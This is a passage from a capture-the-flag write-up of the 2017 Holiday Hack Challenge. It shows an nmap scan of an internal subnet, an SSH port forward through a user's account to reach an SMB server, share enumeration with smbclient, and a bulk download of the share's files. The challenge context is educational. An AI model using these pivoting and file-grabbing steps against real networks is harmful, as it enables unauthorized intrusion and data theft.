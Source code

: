 ```sh
$ nmap -Pn -T5 -PS445 10.142.0.0/24
...
  Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
  Host is up (0.00036s latency).
  Not shown: 996 filtered ports
  PORT     STATE SERVICE
  135/tcp  open  msrpc
  139/tcp  open  netbios-ssn
  445/tcp  open  microsoft-ds
  3389/tcp open  ms-wbt-server
...
```

Next we need to forward the SMB traffic through SSH to interact using our local smbclient tool.

```sh
$ ssh -L :445:10.142.0.7:445 alabaster_snowball@dev.northpolechristmastown.com
```

Now we can connect, which identifies the share name and we can dump the files found:

```sh
$ smbclient -U alabaster_snowball -L localhost
Domain=[HHC17-EMI] OS=[Windows Server 2016 Datacenter 14393] Server=[Windows Server 2016 Datacenter 6.3]

  Sharename       Type      Comment
  ---------       ----      -------
  ADMIN$          Disk      Remote Admin
  C$              Disk      Default share
  FileStor        Disk
  IPC$            IPC       Remote IPC

$ smbclient //localhost/FileStor -U alabaster_snowball
smb: \>
smb: \> dir
  .                                   D        0  Wed Dec  6 16:51:46 2017
  ..                                  D        0  Wed Dec  6 16:51:46 2017
  BOLO - Munchkin Mole Report.docx      A   255520  Wed Dec  6 16:44:17 2017
  GreatBookPage3.pdf                  A  1275756  Mon Dec  4 14:21:44 2017
  MEMO - Calculator Access for Wunorse.docx      A   111852  Mon Nov 27 14:01:36 2017
  MEMO - Password Policy Reminder.docx      A   133295  Wed Dec  6 16:47:28 2017
  Naughty and Nice List.csv           A    10245  Thu Nov 30 14:42:00 2017
  Naughty and Nice List.docx          A    60344  Wed Dec  6 16:51:25 2017

smb: \> mget *
getting file \BOLO - Munchkin Mole Report.docx of size 255520 as BOLO - Munchkin Mole Report.docx (440.1 KiloBytes/sec) (average 946.8 KiloBytes/sec)
getting file \GreatBookPage3.pdf of size 1275756 as GreatBookPage3.pdf (2857.5 KiloBytes/sec) (average 1312.3 KiloBytes/sec)
getting file \MEMO - Calculator Access for Wunorse.docx of size 111852 as MEMO - Calculator Access for Wunorse.docx (379.3 KiloBytes/sec) (average 1207.6 KiloBytes/sec)
getting file \MEMO - Password Policy Reminder.docx of size 133295 as MEMO - Password Policy Reminder.docx (452.0 KiloBytes/sec) (average 1131.4 KiloBytes/sec)
getting file \Naughty and Nice List.csv of size 10245 as Naughty and Nice List.csv (35.0 KiloBytes/sec) (average 1031.6 KiloBytes/sec)
getting file \Naughty and Nice List.docx of size 60344 as Naughty and Nice List.docx (206.0 KiloBytes/sec) (average 962.7 KiloBytes/sec)
```
